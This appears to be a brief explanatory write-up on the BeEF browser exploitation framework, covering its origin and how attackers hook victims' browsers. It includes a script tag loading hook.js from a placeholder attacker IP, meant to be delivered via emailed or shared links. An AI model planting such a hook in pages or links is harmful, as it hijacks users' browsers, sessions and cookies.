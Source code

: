 # BeEF Framework
## Introduction
According to [1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers and vulnerabilities. BeEF which is the short term of Browser Exploitation Framework was initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface[2]. 
## What BeEF Does?
It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4].
<script src=”http://{ATTACKER’S IP}:3000/hook.js” type=”text/javascript”></script>
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, and many other commands.
